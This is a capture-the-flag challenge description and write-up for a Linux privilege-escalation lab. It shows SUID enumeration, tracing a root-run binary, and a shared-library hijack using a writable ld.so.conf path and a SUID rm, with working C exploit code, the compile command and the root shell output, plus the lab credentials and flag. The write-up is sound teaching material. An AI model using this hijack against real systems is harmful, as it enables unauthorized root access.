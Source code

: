 # BlackOps

### Category

System

### Description

You asked a friend to set you up with a few samples of http server in different languages for you to test out. He opened an access to one of his machines. He didn't give you admin access, but maybe there is a way to play a trick on him ;)

The base credentials are:
```
user1:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Note to run the challenge

Run the docker with SYS_PTRACE capibiltiy enabled.
```
docker run -p 22:22 --cap-add=SYS_PTRACE  blackops
```

### Write up

First thing we notice, is the `servers` folder. There is the following note in it:
```
Hi !

Here is the servers sample you ordered. I had troubles with some libraries on a few test systems. Removing them does the trick for now, until I find a fix.
For security reasons, you can't edit any files, but I copied you an SUID enabled copy of the rm binary, if you need to remove files in order to run the project.

Cheers
```
So we have a SUID rm binary. GTFObins does not reference a way to elevate privileges with the rm binary, so there is little chance that this alone is the way to root.

Let's check if there are other SUID enabled binaries.
```
$ find / -perm -4000 2> /dev/null
/bin/su
/bin/umount
/bin/mount
/home/user1/servers/utils/restart_servers
/home/user1/servers/rm
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
```

`/home/user1/servers/utils/restart_servers` is in the same folder, let's check it out.

```
$ file restart_servers 
restart_servers: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=037d8a491f80ebc4daa6f9c41815f0b3d49cef82, stripped
$ ./restart_servers 
[*] Cleaning all servers
	[*] Killing server server.js
	[*] Killing server server.go
	[*] Killing server server.py
[*] All servers cleaned
[*] Restart services
[*] Services restarted
```
Based on the binary output, it's used to kill the servers, free the used ports, and restart the servers.

Let's check what is going on when the binary is ran. To achieve this, I'm going to us the pspy binary.

```
scp -P 22 pspy64s user1@localhost:~
```

Let's run it and check the processes.

```
2022/05/26 18:30:06 CMD: UID=0    PID=418    | ./restart_servers 
2022/05/26 18:30:06 CMD: UID=0    PID=419    | sh -c /sbin/ldconfig 
2022/05/26 18:30:06 CMD: UID=0    PID=420    | /bin/sh /sbin/ldconfig 
2022/05/26 18:30:06 CMD: UID=0    PID=421    | /bin/kc 
2022/05/26 18:30:06 CMD: UID=0    PID=422    | /usr/bin/pkill server.js 
2022/05/26 18:30:06 CMD: UID=0    PID=423    | /usr/bin/pkill server.go 
2022/05/26 18:30:06 CMD: UID=0    PID=424    | /usr/bin/pkill server.py 
2022/05/26 18:30:06 CMD: UID=0    PID=427    | /usr/bin/python3 /home/user1/servers/src/server.py 
2022/05/26 18:30:06 CMD: UID=0    PID=426    | /home/user1/servers/src/server.go 
2022/05/26 18:30:06 CMD: UID=0    PID=425    | /usr/bin/node /home/user1/servers/src/server.js
```
There are a few things going on here. Our binary runs other processes:
 - ldconfig: configure dynamic linker run-time bindings
 - kc: ???
 - pkill: kills a process by mathcing the name
 - server.py
 - server.go
 - server.js

If you try to run /bin/kc, you'll understand that the process tree looks like this:
```
restart_servers
├── ldconfig
├── kc
    └─ pkill
├── server.py
├── server.js
└── server.go
```

Every call is made using the absolute path, so path injections won't be an option here.

But `ldconfig` is a very good hint. It has probably something to do with shared libraries.

```
$ ldd /bin/kc
	linux-vdso.so.1 (0x00007ffcb47e3000)
	libgenprocs.so => /home/user1/servers/libs/libgenprocs.so (0x00007f32a91b0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f32a8dbf000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f32a95b4000)
```
The `kc` binary (kill connection) uses a shared library `/home/user1/servers/libs/libgenprocs.so`. The folder `/home/user1/servers/libs/` is not writable by our current user.

Let's find out, how `kc` knows where to look for the library. There are a few ways to indicate the location of a dynamic shared library. Some of then are using environment variables, like `LD_LIBRARY_PATH`. We have no indication that such variables are kept during our call at the SUID binary.

Another way is to reference the path in `/etc/ld.so.conf`.

```
$ cat /etc/ld.so.conf
include /etc/ld.so.conf.d/*.conf
$ ls /etc/ld.so.conf.d/
libc.conf  servers.conf  x86_64-linux-gnu.conf
$ cat /etc/ld.so.conf.d/servers.conf 
/home/user1/servers/libs/
/home/user1/
```
So binaries will among other things look for the shared libraries in `/home/user1/servers/libs/` and `/home/user1/` folders. The second one is our home directory, so writable by us.

Before writing the exploit, we need to figure out the name of the function that `kc` calls.

A simple strings will to the job.
```
$ strings libgenprocs.so 
__gmon_start__
_init
_fini
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
__cxa_finalize
genprocs <-----
_edata
__bss_start
_end
...
```

Let's write a generic library hijacking exploit...
```c
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void genprocs() {
        printf("[%] Running exploit\n");
        setreuid(geteuid(), geteuid());
        execve("/bin/sh", 0, 0);
}
```
...and compile it.
```bash
gcc -fPIC -shared -o libgenprocs.so exploit.c
```

Last thing is to get rid of the legitimate library using the SUID rm binary.

```
$ servers/rm servers/libs/libgenprocs.so 
```

We don't have to worry about relinking, because `ldconfig`  is called as root when running `restart_servers`.

```
$ ./restart_servers 
[*] Cleaning all severs
[%] Running exploit
# id
uid=0(root) gid=1000(user1) groups=1000(user1)
```

### Flag

```
Hero{h1j4cked_l1k3_1n_Bl4ck_0ps}
```
